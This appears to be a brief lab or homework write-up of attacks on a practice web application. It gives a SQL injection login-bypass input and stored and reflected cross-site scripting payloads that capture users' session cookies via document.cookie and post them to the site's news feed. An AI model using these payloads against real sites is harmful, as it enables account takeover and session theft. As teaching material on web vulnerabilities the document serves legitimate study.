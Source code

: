Part 1: SQL Injection

login as
	user	:	alice@alice.com';--
	password: anything
 
 this will cut the query and execute before it checks for password



 Part 2: Cross-Site Scripting

 **Second order (persistent) attack**
 as each news are a list item, we can use 

    </li> [our actual code] <li>

to inject our code to the news.
In this case we use

<script> document.write("<img src=/news?text="+document.cookie+">") </script>

so that everytime someone sees their news feed, the injected code will print their session into the news feed database.


**first order attack**

instead of an image file that loads automatically, now we have a link that points to the same url

<a href="#" onclick="expose()"> reddit.com/r/funny <script> function expose() { window.location="/news?text="+document.cookie}</script> </a>

putting it in a simple html doesnt work because the cookies are not the same.


